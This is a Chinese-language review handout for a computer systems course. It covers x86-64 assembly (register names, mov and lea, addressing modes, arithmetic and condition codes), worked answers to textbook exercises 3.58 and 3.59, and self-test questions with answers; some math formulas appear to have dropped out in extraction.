40119c: e8 95 ff ff ff call 401136 <plus>
4011a1: 48 89 03 mov %rax,(%rbx)
4011a4: 5b pop %rbx
4011a5: c3 ret
# 只编译不链接（objdump -dr sum.o）：
4: e8 00 00 00 00 call 9 <sumstore+0x9>
5: R_X86_64_PLT32 plus-0x4| 比较项 | 结论 |
|---|---|
| 相同 | 机器码 53、48 89 d3、48 89 03、5b、c3 与课件逐字节相同：同一 ISA 下同一条汇编指令的编码是确定的 |
| 地址不同 | 默认 PIE 下函数从 0x11d5 这样的小地址开始（实际运行时再整体加载到随机基址）；关闭 PIE 后为 0x401198，与课件的 0x400595 同一量级，只是链接器布局不同 |
| call 的偏移不同 | 偏移量 = plus 地址 − 下一条指令地址，两个函数在文件中的相对位置不同，偏移量也不同（0xffffff87 = −121，0xffffff95 = −107） |
endbr64 | 默认开启 CET 时多出的 4 字节指令，函数总长变为 18 字节 |
.o 文件 | call 的 4 字节偏移为 0，旁边的 R_X86_64_PLT32 plus-0x4 是重定位项，链接器据此填入真实偏移，印证了 1（3）中“汇编器留空、链接器填写”的说法 |
| 助记符 | 新版 objdump 显示 call/ret，老版本显示 callq/retq，含义相同 |
在 gdb 中也可以 gdb prog 后执行 disassemble sumstore 和 x/14xb sumstore（课件 p.23）。Mac 上的对应工具是 objdump -d（LLVM 版）或 otool -tv，调试器是 lldb（命令 disassemble -n sumstore）。
研讨题 2#
2（1）基于课件第 26、27 页，介绍 x86 CPU 中的通用寄存器，讲解同一个寄存器内不同区域有不同名称的原因。例如 rcx/ecx/cx/ch/cl 之间的关系，用其中一个名称访问时，会带来什么影响。
x86-64 有 16 个 64 位通用寄存器（见 4.3 节的图 3）。同一寄存器的不同区域有不同名称，根本原因是向后兼容：8086 是 16 位处理器，寄存器名为 %cx，其高、低字节可分别作为 %ch、%cl 使用（当时 8 位数据很常见，这样一个寄存器能当两个 8 位寄存器用）；386 把寄存器扩展到 32 位，命名为 %ecx；x86-64 再扩展到 64 位，命名为 %rcx。旧程序用旧名字访问的仍是同一个物理寄存器的低位部分，因此可以不加修改地运行。另一个好处是，程序可以按数据的实际宽度（char、short、int、long）选择对应名称进行运算。
%rcx = 0x1122334455667788 时各名称对应的值
| %rcx | 11 | 22 | 33 | 44 | 55 | 66 | 77 | 88 | = 0x1122334455667788 |
| 名称 | 位 | 值 |
|---|---|---|
%rcx | 63–0 | 0x1122334455667788 |
%ecx | 31–0 | 0x55667788 |
%cx | 15–0 | 0x7788 |
%ch | 15–8 | 0x77 |
%cl | 7–0 | 0x88 |
★ 用不同名称访问的影响
读的时候，只读出对应的位，其余位被忽略。例如 movl %ecx, %eax 只取 0x55667788。
写 1 或 2 字节时（%cl、%ch、%cx），只修改对应的字节，其余位保持不变。
写 4 字节时（%ecx），写入低 32 位，并把高 32 位清零。所以 movl $1, %ecx 之后 %rcx = 1。
指令后缀必须匹配，movq %ecx, %rax 是非法的；movb 只能配 1 字节的寄存器名。
%ah、%bh、%ch、%dh 还有一个限制：它们不能与需要 REX 前缀的寄存器（如 %sil、%r8b）出现在同一条指令中，这是编码上的历史包袱，编译器通常避免使用它们。
从性能看，只写低 8/16 位会让新值依赖于寄存器原来的高位，在某些处理器上产生额外的合并开销（“部分寄存器停顿”）；这也是 gcc 读取一个字节时常用 movzbl 把整个寄存器写满的原因。
2（2）根据课件第 29 页，自行设计每种类型对应的示例（不要用课件上现成的）并讲解，包括汇编代码和 C 代码。然后分析为什么没有 memory-memory 的传送类型。
下面每个 C 函数都用 gcc 13 -Og 实际编译，汇编为真实输出（去掉了伪指令）。参数依次在 %rdi、%rsi，返回值在 %rax。
| 类型 | C 代码 | 汇编 | 讲解 |
|---|---|---|---|
| 立即数 → 寄存器 | long imm_reg(void) { return -1; } | movq $-1, %rax | 把常数 −1 放入返回值寄存器；立即数以 32 位编码，符号扩展为 64 位 |
| 立即数 → 内存 | void imm_mem(int *p) { *p = 2026; } | movl $2026, (%rdi) | 把 2026 写入 p 指向的 4 字节；int 用后缀 l |
| 寄存器 → 寄存器 | long reg_reg(long a, long b) { return b; } | movq %rsi, %rax | 把第 2 个参数复制到返回值寄存器 |
| 寄存器 → 内存 | void reg_mem(short *p, short v) { *p = v; } | movw %si, (%rdi) | short 为 2 字节，用后缀 w 和 16 位寄存器名 %si |
| 内存 → 寄存器 | long get(long *p) { return *p; } | movq (%rdi), %rax | 读取 p 指向的 8 字节 |
| 内存 → 内存 | void copy_mem(long *d, long *s) { *d = *s; } | movq (%rsi), %raxmovq %rax, (%rdi) | 必须经过寄存器中转，两条指令 |
补充一个有趣的现象：char mem_reg(char *p) { return *p; } 被编译为 movzbl (%rdi), %eax，而不是 movb (%rdi), %al。返回 char 时调用者只看 %al，两者都正确；编译器选择写满整个 %eax，是为了避免 2（1）中提到的部分寄存器写入开销。
★ 为什么没有内存到内存的传送？
第一个原因是指令编码：x86 指令用一个 ModRM 字节描述两个操作数，其中只有一个字段（r/m）可以表示内存地址，另一个字段（reg）只能表示寄存器。要支持两个内存操作数，就需要两套完整的寻址信息（各自的基址、变址、比例、偏移），指令会变得很长、很难译码。
第二个原因是硬件实现：一条指令访问两个内存地址，需要两次地址计算和两次内存访问（一读一写），而且任何一次都可能发生缺页等异常，使流水线设计与异常处理复杂得多。限制为“至多一个内存操作数”，每条指令最多访问一次数据内存，硬件更简单、更快。
第三个原因是需求不大：内存到内存的复制可以用两条指令完成，额外代价很小；数据在寄存器里中转后往往还要参与其他计算。RISC 架构（ARM、RISC-V）走得更远，只有 load/store 指令能访问内存。
不过也有例外：x86 的字符串指令 movs（配合 rep 前缀，用 %rsi、%rdi 隐式给出两个地址）以及 pushq (%rax)、popq (%rax) 实际上完成了内存到内存的传送，但它们的内存操作数是隐含的，不需要在编码中给出两套寻址字段。
2（3）根据教材第 3.4.2 和 3.4.3 节，补充介绍课件上没有提到的其他传送指令。
4.7 节已列出这些指令的规则，这里给出实测示例（gcc 13 编译或内联汇编运行结果）：
| 指令 | C 代码 / 场景 | 实测汇编或运行结果 | 说明 |
|---|---|---|---|
movb/movw/movl | 见 2（2） | movw %si, (%rdi)、movl $2026, (%rdi) | 按数据大小选后缀 |
movabsq | return 0x123456789ABCDEF0L; | movabsq $1311768467463790320, %rax | 64 位立即数，普通 movq 放不下 |
movsbq | long sx(signed char c) { return c; } | movsbq %dil, %rax | 有符号 char 扩展为 long：符号扩展 |
movzbl | unsigned long zx(unsigned char c) { return c; } | movzbl %dil, %eax | 无符号扩展：写 %eax 会自动清零高 32 位，所以不需要 movzbq |
movslq | long i2l(int x) { return x; } | movslq %edi, %rax | int → long 的符号扩展 |
cltq | %eax = 0x80000000 时执行 cltq | %rax = 0xFFFFFFFF80000000 | %eax 符号扩展到 %rax，即 movslq %eax,%rax 的简写 |
movzbq vs movsbq | %dl = 0xAA | 零扩展 0x00…00AA；符号扩展 0xFF…FFAA | 同一字节，扩展方式不同，结果不同（第 2 讲） |
pushq/popq | sumstore（课件 p.15） | pushq %rbx … popq %rbx | 保存和恢复被调用者保存寄存器；压栈时 %rsp 先减 8 再写 |
这里有一个记忆窍门：零扩展和符号扩展指令名中的两个后缀分别表示源大小和目的大小，如 movsbw = move with sign extension, byte to word。还有一类“条件传送”指令 cmov（如 gcc -O2 编译教材 3.6.6 节的 absdiff（if (x < y) 版本）时生成的 cmovl %rdx, %rax），将在第 5 讲介绍。
2（4）根据课件第 30 页和随后几页，对照汇编和 C 代码，逐条指令描述 swap 执行过程。
C 代码与汇编、寄存器分配和每一步的状态变化已在 4.6 节的表格中列出（xp = 0x120，yp = 0x100，*xp = 123，*yp = 456）。逐条描述如下：
进入函数时，调用者已把第 1 个参数 xp（0x120）放入 %rdi，第 2 个参数 yp（0x100）放入 %rsi。C 中的两个指针参数在机器层面就是两个装着地址的寄存器。
movq (%rdi), %rax 对应 long t0 = *xp;：用 %rdi 的值 0x120 作为地址（间接寻址模式 (R)），读出 8 字节 123，放入 %rax。这是一次加载。
movq (%rsi), %rdx 对应 long t1 = *yp;：以 0x100 为地址读出 456，放入 %rdx。
movq %rdx, (%rdi) 对应 *xp = t1;：把 %rdx 中的 456 写到地址 0x120。这是一次存储，M[0x120] 从 123 变为 456。
movq %rax, (%rsi) 对应 *yp = t0;：把 %rax 中的 123 写到地址 0x100，M[0x100] 从 456 变为 123，交换完成。
ret 指令返回调用者。swap 没有返回值，%rax 中残留的 123 没有意义。
全过程中，C 的局部变量 t0、t1 没有占用内存，只存在于寄存器中；%rdi、%rsi 中的地址始终不变。如果把 swap 写成按值传参 void swap(long a, long b)，函数只能交换寄存器中的副本，调用者的变量不受影响——这就是 C 必须用指针才能实现 swap 的机器层面原因。
2（5）根据课件第 39、40 页，重新设计类似第 40 页的练习，并逐条展现计算过程。
设 %rax = 0x2000，%rbx = 0x30。计算下列寻址表达式的有效地址：
表 16 寻址练习（新设计）
| 表达式 | 形式 | 地址计算 | 地址 |
|---|---|---|---|
0x10(%rax) | D(Rb) | 0x2000 + 0x10 | 0x2010 |
(%rax,%rbx) | (Rb,Ri) | 0x2000 + 0x30 | 0x2030 |
(%rax,%rbx,8) | (Rb,Ri,S) | 0x2000 + 8 × 0x30 = 0x2000 + 0x180 | 0x2180 |
0x20(%rax,%rbx,2) | D(Rb,Ri,S) | 0x2000 + 2 × 0x30 + 0x20 = 0x2000 + 0x60 + 0x20 | 0x2080 |
(,%rbx,4) | (,Ri,S) | 4 × 0x30 | 0xC0 |
-0x8(%rax,%rbx,4) | D(Rb,Ri,S)，D 为负 | 0x2000 + 0xC0 − 0x8 | 0x20B8 |
0x100(,%rax,8) | D(,Ri,S) | 8 × 0x2000 + 0x100 = 0x10000 + 0x100 | 0x10100 |
反向练习：若 %rax 存放 long 数组 a 的地址、%rbx 存放下标 i，则 a[i] 是 (%rax,%rbx,8)，a[i+2] 是 16(%rax,%rbx,8)，&a[i] 用 leaq (%rax,%rbx,8), %rdx 计算。
2（6）拓展研讨：根据课件第 39 页，分析为什么要设计出这么复杂的寻址模式，这些模式的不同组合形式，都可以用在什么场景（例如数组？二维数组？其它？），尤其要分析为什么 S 是这些取值。
这样设计是因为，C 程序中绝大多数内存访问都形如“某个基地址 + 下标 × 元素大小 + 常数偏移”。把这个计算做进寻址模式，一条指令就能完成“计算地址 + 访问内存”，代码更短（CISC 追求的代码密度）、需要的寄存器更少；地址计算由专门的地址生成单元在一个周期内完成，不占用 ALU；leaq 则借用同样的寻址语法和编码，兼作 x + k*y + c 形式的快速算术（现代处理器上 lea 通常在整数 ALU 上执行）。
| 形式 | 应用场景 | C 代码 | 汇编示意 |
|---|---|---|---|
(R) | 指针解引用 | *p | movq (%rdi), %rax |
D(R) | 结构体字段；栈上的局部变量 | p->y（偏移 8）；栈中变量 | movq 8(%rdi), %rax；movq 8(%rsp), %rax |
(Rb,Ri,S) | 一维数组元素 | long a[]; a[i] | movq (%rdi,%rsi,8), %rax（实测） |
D(Rb,Ri,S) | 数组元素偏移；结构体数组中元素的字段 | a[i+1]；s[i].y | movq 8(%rdi,%rsi,8), %rax |
D(,Ri,S) | 全局/静态数组（基址是链接时确定的常数） | g[i] | movl g(,%rdi,4), %eax |
(Rb,Ri) | 字节数组、字符串 | char s[]; s[i] | movzbl (%rdi,%rsi), %eax |
| 组合 lea + 寻址 | 二维数组 a[i][j]（每行 5 个 int） | int a[][5]; a[i][j] | leaq (%rsi,%rsi,4),%rax（5i）leaq (%rdi,%rax,4),%rax（a + 20i）movl (%rax,%rdx,4),%eax（+4j） |
最后一行是 gcc 13 对 int elem2d(int a[][5], long i, long j) { return a[i][j]; } 的实测输出：地址 ，先用 leaq 算出 5i，再算出第 i 行的起始地址，最后用比例变址寻址取出元素。第 7 讲（数据）将系统讲解数组与结构体的访问。
★ 为什么 S 只能是 1、2、4、8
这些取值与基本数据类型的大小一一对应：char（1）、short（2）、int 与 float（4）、long、double 与指针（8）。用下标访问这些类型的数组时，比例因子恰好就是元素大小。
这些取值的硬件代价极小：乘以 1、2、4、8 等价于左移 0、1、2、3 位，地址计算单元只需一个移位器而不需要乘法器。
编码上也很紧凑：比例因子存放在 SIB 字节中仅 2 位的字段里，2 位恰好表示 4 种取值（）。
更大的元素（如结构体）或非 2 的幂的大小，由编译器先用 leaq、imulq 或移位算出“下标 × 大小”，再用 S = 1 寻址。
2（7）基于课件第 45、46 页，逐行对照 C 代码和汇编代码，讲解具体操作。
| # | 汇编 | 计算 | 对应 C | 寄存器状态 |
|---|---|---|---|---|
| 1 | leaq (%rdi,%rsi), %rax | %rax = x + y | t1 = x + y | %rax = t1 |
| 2 | addq %rdx, %rax | %rax = t1 + z | t2 = z + t1 | %rax = t2；z 不再需要，%rdx 可复用 |
| 3 | leaq (%rsi,%rsi,2), %rdx | %rdx = y + 2y = 3y | t4 = y * 48 的前半 | %rdx = 3y |
| 4 | salq $4, %rdx | %rdx = 3y × 16 = 48y | t4 = y * 48 | %rdx = t4 |
| 5 | leaq 4(%rdi,%rdx), %rcx | %rcx = x + t4 + 4 | t3 = x + 4; t5 = t3 + t4 | %rcx = t5（t3 被合并） |
| 6 | imulq %rcx, %rax | %rax = t2 × t5 | rval = t2 * t5 | %rax = rval |
| 7 | ret | return rval | 返回值在 %rax |
这里有几个要点：（1）leaq 被当作加法器使用了 3 次，既能做 x + y，又能做 y + 2y，还能一次完成三个数相加 x + t4 + 4，而且不影响条件码；（2）乘以 48 被分解为乘 3（leaq）再乘 16（左移 4 位），避开了较慢的乘法；（3）真正的乘法 imulq 只出现一次，因为 t2 × t5 是两个变量相乘，无法用移位代替；（4）编译器分析出 t1、t3 都只用一次，不为它们单独分配寄存器。用 x = 1、y = 2、z = 3 验证：t1 = 3，t2 = 6，t4 = 96，t5 = 101，rval = 606。
2（8）结合教材第 3.5 节，在前面已经分析过的指令之外，分类选代表介绍算术和逻辑运算指令。
| 类别 | 代表指令 | 示例（实测或已验证） | 说明 |
|---|---|---|---|
| 加载有效地址 | leaq | return 5*x+8; → leaq 8(%rdi,%rdi,4), %rax | 计算地址或 x + k·y + c；不访存、不改条件码 |
| 一元操作 | negq | return -x; → movq %rdi,%rax; negq %rax | 取负，即 ~x + 1 |
notq | notq %rax | 逐位取反 | |
incq / decq | incq %rax | 加一 / 减一；与 addq $1 的区别是不改变 CF | |
| 二元操作 | xorl | return 0; 在 -O2 下 → xorl %eax, %eax | 自己异或自己得 0，比 movl $0,%eax 编码更短，是清零的惯用法 |
addq（内存目的） | (*p)++ 在 -O2 下 → addq $1, (%rdi) | 目的可以是内存：读、改、写一条指令完成 | |
| 移位 | sarq / shrq | sarq $63, %rax（作业 3.58） | 算术右移 63 位：得到全 0 或全 1，即符号的“掩码” |
salq %cl, %rdx | 变量移位量必须放在 %cl | 只取 %cl 的低 6 位 | |
| 特殊算术 | imulq S / mulq S | 作业 3.59 中的 mulq %rsi | 128 位全乘积放在 %rdx:%rax |
cqto + idivq | long x / y → movq %rdi,%rax; cqto; idivq %rsi | 商在 %rax，余数在 %rdx（x % y 就取 %rdx） | |
divq | unsigned long x / y → movl $0,%edx; divq %rsi | 无符号除法前把 %rdx 清零而不是符号扩展 |
除了 lea、not 和 cqto 之外，这些指令都会修改条件码，但细节不同：逻辑运算把 CF、OF 清零，inc/dec 不改 CF，单操作数 imul/mul 只定义 CF、OF，div/idiv 之后条件码未定义。第 5 讲将利用加减、逻辑、比较等指令设置的条件码实现条件分支。另外要牢记：加、减、乘（低位）与逻辑运算不区分有无符号；右移、除法、全乘法、比较后的跳转要区分有无符号，所以各有两个版本（sar/shr、idiv/div、imul/mul、jg/ja）。
第三部分 作业题解答：3.58、3.59#
作业题来自教材第 3 章家庭作业（中文版 P216–P217；英文 Global Edition 中题号相同）。
3.58 根据汇编写出 C 代码#
题目函数原型为 long decode2(long x, long y, long z);，gcc 产生如下汇编代码。参数 x、y、z 通过 %rdi、%rsi、%rdx 传递，返回值存放在 %rax。写出等价于该汇编代码的 decode2 的 C 代码。
decode2:
subq %rdx, %rsi # y = y - z
imulq %rsi, %rdi # x = x * y
movq %rsi, %rax # t = y
salq $63, %rax # t = t << 63
sarq $63, %rax # t = t >> 63（算术右移）
xorq %rdi, %rax # t = t ^ x
ret # return t先分析这段汇编：subq %rdx, %rsi 是 %rsi = %rsi − %rdx，即 y = y − z（注意 AT&T 语法中目的在后）；imulq %rsi, %rdi 是 x = x × y；随后把 y 左移 63 位再算术右移 63 位，得到“y 的最低位复制到全部 64 位”：y 为奇数时得 −1（全 1），偶数时得 0；最后与 x 异或。因此函数的含义是：若 y − z 为奇数，返回 ~(x(y − z))；否则返回 x(y − z)。
long decode2(long x, long y, long z)
{
y -= z;
x *= y;
long t = (long)((unsigned long)y << 63) >> 63; /* y 为奇数时全 1，否则为 0 */
return t ^ x;
}
/* 直接写 ((y << 63) >> 63) ^ x 时，gcc 13 -Og 生成与题目逐条相同的汇编；
但有符号数左移溢出在 C 中是未定义行为，用 unsigned 中转更严谨（功能相同）*/3.59 128 位乘法#
题目下面的代码计算两个 64 位有符号值 x 和 y 的 128 位乘积，并将结果存储在内存中：typedef __int128 int128_t; void store_prod(int128_t *dest, int64_t x, int64_t y) { *dest = x * (int128_t) y; }。gcc 产生的汇编代码如下。这段代码用了三次乘法来实现 64 位机器上的 128 位乘法所需的多精度计算。描述用来计算乘积的算法，对汇编代码加注释，说明它是如何实现你的算法的。提示：把 x、y 扩展到 128 位时可以写成 、，乘积写成 。
算法的推导如下。把 64 位有符号数 x 扩展到 128 位时做符号扩展，所以高 64 位 是 x 的符号位的 64 份复制：x ≥ 0 时 ，x < 0 时 为全 1（作为有符号数为 −1）；低 64 位 就是 x 的位模式（作为无符号数）。y 同理。于是
只保留低 128 位（模 ）时，第一项整个被丢弃； 是两个 64 位无符号数的完整乘积（128 位），记为 ；中间项只有低 64 位会落入结果的高半部分。所以：
其中 必须用无符号全乘法（mulq）计算； 和 只需要低 64 位，有符号与无符号乘法的低位相同（第 2 讲），所以用普通的 imulq 即可。这就是“三次乘法”。
store_prod: # dest 在 %rdi，x 在 %rsi，y 在 %rdx
movq %rdx, %rax # %rax = y（= y_l）
cqto # 符号扩展：%rdx = y_h（全 0 或全 1）
movq %rsi, %rcx # %rcx = x
sarq $63, %rcx # %rcx = x_h（x 的符号位复制 64 次）
imulq %rax, %rcx # %rcx = x_h * y_l（低 64 位）
imulq %rsi, %rdx # %rdx = y_h * x_l（低 64 位）
addq %rdx, %rcx # %rcx = x_h*y_l + x_l*y_h
mulq %rsi # 无符号全乘：%rdx:%rax = x_l * y_l
addq %rcx, %rdx # %rdx = hi(x_l*y_l) + x_h*y_l + x_l*y_h = p_h
movq %rax, (%rdi) # 小端：低 8 字节存 p_l
movq %rdx, 8(%rdi) # 高 8 字节存 p_h
ret最后验证这个算法：把题目中的汇编单独汇编成函数，与编译器的 __int128 乘法对比边界值（0、±1、TMax、TMin 等）和 10 万组随机数，结果全部一致。注意存储顺序：x86-64 是小端，所以低 64 位 存在低地址 (%rdi)，高 64 位存在 8(%rdi)。gcc 13 对同一段 C 代码生成的指令顺序略有不同（先用 sarq 求出 、），但算法相同。
第四部分 复习速查#
4.1 寄存器与约定#
| 用途 | 寄存器 |
|---|---|
| 参数 1～6 | %rdi %rsi %rdx %rcx %r8 %r9（英文口诀：Diane’s silk dress costs 89） |
| 返回值 | %rax |
| 栈指针 | %rsp |
| 被调用者保存 | %rbx %rbp %r12–%r15 |
| 调用者保存 | %r10 %r11（以及参数寄存器和 %rax） |
| 乘除法隐含使用 | %rax、%rdx |
| 变量移位量 | %cl |
4.2 语法与规则速查#
| 规则 | 内容 |
|---|---|
| AT&T 语法 | 源在前、目的在后；立即数 $，寄存器 %；后缀 b/w/l/q = 1/2/4/8 字节 |
| 寻址模式 | D(Rb,Ri,S) = Mem[Reg[Rb] + S·Reg[Ri] + D]；S ∈ {1, 2, 4, 8}；Ri 不能是 %rsp |
| mov 限制 | 不能内存 → 内存；立即数不能作目的；movq 立即数为 32 位符号扩展，64 位常数用 movabsq |
| 写部分寄存器 | 写 4 字节（如 %eax）清零高 32 位；写 1、2 字节不影响其余位 |
| 扩展指令 | movz（零扩展）、movs（符号扩展）、cltq；没有 movzlq |
| leaq | 只算地址不访存，不改条件码；可做 x + k·y + c |
| 算术 | subq S,D 为 D = D − S；加减乘逻辑不分有无符号；右移分 sar（算术）/shr（逻辑） |
| 除法 | 有符号：cqto + idivq；无符号：清零 %rdx + divq；商 %rax、余数 %rdx |
| 编译命令 | gcc -Og -S（到汇编）、gcc -c（到目标文件）、objdump -d（反汇编）、gdb disassemble / x/14xb |
4.3 易错点清单#
| # | 易错点 | 正确理解 |
|---|---|---|
| 1 | subq %rsi, %rdi 是 rsi − rdi | 是 %rdi = %rdi − %rsi（目的在后） |
| 2 | (%rax) 就是 %rax 的值 | (%rax) 是以 %rax 为地址的内存内容 |
| 3 | leaq 8(%rdi), %rax 会读内存 | 只计算 %rdi + 8，不访存 |
| 4 | movl 只改低 32 位 | 还会把高 32 位清零 |
| 5 | 比例因子 S 决定读几个字节 | S 是下标的步长，读写宽度由指令后缀决定 |
| 6 | movq (%rax), (%rbx) 合法 | 不能内存到内存 |
| 7 | 寄存器有类型 | 寄存器只存位，类型体现在指令的选择上 |
| 8 | 需要不同的 add 处理 signed / unsigned | 同一条 add；溢出看 OF（有符号）或 CF（无符号） |
| 9 | incq 与 addq $1 完全相同 | incq 不改变 CF |
| 10 | 机器码中 call 的操作数是目标地址 | 是相对于下一条指令的偏移量，小端存放 |
4.4 中英术语对照#
| English | 中文 | English | 中文 |
|---|---|---|---|
| instruction set architecture (ISA) | 指令集体系结构 | microarchitecture | 微体系结构 |
| CISC / RISC | 复杂 / 精简指令集计算机 | program counter (PC) | 程序计数器 |
| register file | 寄存器文件 | condition codes | 条件码 |
| assembly code | 汇编代码 | machine code / object code | 机器码 / 目标代码 |
| assembler / disassembler | 汇编器 / 反汇编器 | linker | 链接器 |
| directive | 伪指令 | immediate | 立即数 |
| operand | 操作数 | addressing mode | 寻址模式 |
| displacement | 偏移量 | base / index register | 基址 / 变址寄存器 |
| scale factor | 比例因子 | effective address | 有效地址 |
| load / store | 加载 / 存储 | sign / zero extension | 符号 / 零扩展 |
| quad word / double word | 四字 / 双字 | callee-saved | 被调用者保存 |
| caller-saved | 调用者保存 | relocation | 重定位 |
第五部分 自测题#
以下题目为新编。默认 x86-64、AT&T 语法。
设 %rax = 0x0123456789ABCDEF，依次执行 movb $0, %al 和 movl $1, %eax 后，%rax 分别是多少？
设 %rdx = 0x1000，%rcx = 3，求 0x8(%rdx,%rcx,4) 的有效地址；leaq 0x8(%rdx,%rcx,4), %rax 执行后 %rax 是多少？
下列指令哪些是非法的？（a）movq $5, %rax（b）movl %eax, %rbx（c）movq (%rax), (%rbx)（d）movb $0x12, (%rdi)（e）movq %rax, $10
写出 long f(long x) { return x * 9 + 3; } 可能对应的一条汇编指令。
long g(long *p, long i) { return p[i] + p[i+1]; }，参数在 %rdi、%rsi，用两条指令写出函数体（不含 ret）。
subq %rdi, %rsi 执行后，哪个寄存器被修改？等于什么？
把 signed char 类型的参数（在 %dil 中）转换为 long 返回，应使用哪条指令？若是 unsigned char 呢？
机器码 e8 10 00 00 00 位于地址 0x400500，它调用的函数地址是多少？
为什么 addq 指令不需要区分有符号数和无符号数？
long h(long x, long y) { return x / y; } 中，在 idivq 之前为什么需要 cqto？
自测题答案#
movb $0, %al 后为 0x0123456789ABCD00（只改低字节）；movl $1, %eax 后为 0x0000000000000001（写 4 字节清零高 32 位）。
0x1000 + 4×3 + 8 = 0x1014；leaq 不访存，%rax = 0x1014。
（b）非法：后缀 l 与 64 位寄存器 %rbx 不匹配；（c）非法：不能内存到内存；（e）非法：立即数不能作目的。（a）（d）合法。
leaq 3(%rdi,%rdi,8), %rax（x + 8x + 3）。
movq 8(%rdi,%rsi,8), %rax 与 addq (%rdi,%rsi,8), %rax（顺序可以互换，例如先 movq (%rdi,%rsi,8),%rax 再 addq 8(%rdi,%rsi,8),%rax）。
%rsi 被修改，%rsi = %rsi − %rdi。
signed char：movsbq %dil, %rax；unsigned char：movzbl %dil, %eax（写 %eax 会自动清零高位，也可写 movzbq）。
下一条指令地址为 0x400505，偏移 0x10（小端 10 00 00 00），目标 = 0x400505 + 0x10 = 0x400515。
补码加法与无符号加法在位级完全相同（第 2 讲），一次加法同时产生两种解释的正确结果；区别仅在于溢出由 OF 还是 CF 表示，由后续指令决定看哪个。
idivq 的被除数是 128 位的 %rdx:%rax；cqto 把 %rax 符号扩展到 %rdx，使 128 位被除数的数值等于 x。若 %rdx 中留有其他值，商会错误甚至触发除法异常。
—— 第 4 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 5 讲
程序的机器级表示 II：控制（Machine-Level Programming II: Control）
如何使用本讲义#
第 4 讲的程序都是“直线型”的：指令一条接一条顺序执行。这一讲研究程序如何“拐弯”：if、?:、循环、switch 在机器层面都只剩下两样东西——条件码（记录上一次运算的状态）和跳转（改变 %rip）。课件 p.12 的一句话概括了全讲：“It’s all done with GOTO!”。讲义中条件码统一用下面的颜色标注：
| 条件码 | CF | ZF | SF | OF | 进位（无符号） ｜ 零 ｜ 符号 ｜ 溢出（有符号） |
表 1 第 5 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| Recall（p.2–8） | 复习 ISA 视图、lea 的两种用途、指令后缀 | 5.1 |
| Control: Condition codes（p.10–25） | CF/ZF/SF/OF 何时置位；cmp 与 test；setX 如何读条件码 | 5.2–5.3 |
| Conditional branches（p.27–35） | jX 跳转；if-else 的 goto 翻译；条件传送 cmov 及其禁区 | 5.4–5.6 |
| Loops（p.37–47） | do-while、while（两种翻译）、for 的统一模式 | 5.7 |
| Switch Statements（p.49–58） | 跳转表、间接跳转、穿透（fall through） | 5.8 |
| Additional Slides（p.62–64） | 在二进制文件中找出跳转表 | 5.9 |
第一部分 第 5 讲知识点：控制#
5.1 回顾与补充（课件 p.2–8）#
课件开头复习了第 4 讲的内容，并补充了两点。第一，内存操作数与 lea（p.6–7）：大多数指令中的内存操作数都会真正访问内存，例如 mov 6(%rbx,%rdi,8), %ax 读内存、add 6(%rbx,%rdi,8), %ax 读内存再相加、xor %ax, 6(%rbx,%rdi,8) 读改写内存；而 lea 6(%rbx,%rdi,8), %rax 只计算 rbx + rdi×8 + 6，不访问内存。CPU 设计者让 lea 计算指针（如 rax = &rbx[rdi]），编译器作者却喜欢用它做普通算术：它能一条指令完成复杂计算，是 x86 中少有的三操作数指令（两个源、一个目的互不干扰），而且不改变条件码——这一点本讲会反复用到。
第二，指令后缀（p.8）：大多数 x86 指令可以写也可以不写后缀，imul %rcx, %rax 与 imulq %rcx, %rax 完全相同。后缀表示操作大小（b = byte，w = short，l = int，q = long），写了就必须与寄存器名匹配。gcc -S 生成的汇编通常带后缀，objdump -d 和 gdb 的 disas 通常省略后缀，Intel 手册总是省略后缀。
5.2 条件码（课件 p.13–20）#
除了通用寄存器、栈指针 %rsp 和指令指针 %rip，处理器还保存着一组描述最近一次测试结果的单比特寄存器——条件码（p.13）。x86-64 把它们放在 RFLAGS 寄存器中。本课程关注四个：
表 2 四个条件码（课件 p.14）
| 条件码 | 英文 | 含义（对 t = a + b） | 主要服务于 |
|---|---|---|---|
| CF | Carry Flag | 最高位产生进位（加法）或借位（减法），即无符号溢出 | 无符号数 |
| ZF | Zero Flag | 结果 t == 0 | 相等判断 |
| SF | Sign Flag | 结果 t < 0（按有符号解释），即 t 的最高位为 1 | 有符号数 |
| OF | Overflow Flag | 补码溢出：(a>0 && b>0 && t<0) || (a<0 && b<0 && t>=0) | 有符号数 |
条件码有两种设置方式。第一种是隐式设置，算术和逻辑运算指令（add、sub、imul、and、or、xor、shift 等）在计算结果的同时，作为“副作用”设置条件码；leaq 不设置条件码。注意，同一次加法会同时产生 CF 和 OF——CPU 并不知道操作数是有符号还是无符号，它把两种解释的溢出情况都记录下来，由后续指令决定看哪一个（第 2 讲：补码加法与无符号加法位级相同）。课件 p.15–18 用位模式说明了置位条件：
| 条件码 | 何时置 1（位模式视角） |
|---|---|
| ZF | 结果的所有位都是 0：000…000 |
| SF | 结果最高位为 1：1xxx…（对有符号运算，表示结果为负） |
| CF | 加法：两个操作数相加，从最高位向外产生了进位；减法：被减数不够减，需要从最高位之外借位 |
| OF | 两个同号数相加，结果的符号与它们相反（课件 p.18：两个操作数的符号位都是 y，结果的符号位 z = ~y） |
实测：几个加法设置的条件码（64 位）
指令
结果
CF
ZF
SF
OF
解读
TMax + 1
0x8000…0000
0
0
1
1
无符号正确；有符号正溢出
−1 + 1（即 UMax + 1）
0
1
1
0
0
无符号回绕；有符号正确
TMin + TMin
0
1
1
0
1
两种解释都溢出
5 + (−3)
2
1
0
0
0
有符号 5 − 3 = 2 正确；但按无符号看 5 + 0xFF…FD 产生了进位
最后一行很典型：CF = 1 并不意味着“有符号运算出错”，它只是说按无符号解释时最高位有进位。看哪个标志，取决于程序把数据当作什么类型。
显式设置：cmp 与 test#
比较指令 cmpq Src2, Src1（即 cmpq b, a）像计算 a − b 一样设置条件码，但不保存结果（p.19）：CF 置位表示最高位借位（用于无符号比较）；ZF 置位表示 a == b；SF 置位表示 (a − b) < 0；OF 置位表示补码溢出，即 (a>=0 && b<0 && (a−b)<0) || (a<0 && b>0 && (a−b)>0)。注意顺序：AT&T 语法中 cmpq %rsi, %rdi 比较的是 %rdi : %rsi，计算 %rdi − %rsi。
测试指令 testq Src2, Src1（即 testq b, a）像计算 a & b 一样设置条件码，同样不保存结果（p.20）：ZF 置位表示 a & b == 0，SF 置位表示 a & b < 0；CF 与 OF 被清零。常把其中一个操作数作为掩码，最常见的写法是 testq %rax, %rax，用来检查 %rax 是零、正数还是负数。
常见问题：条件码为什么叫“寄存器”？
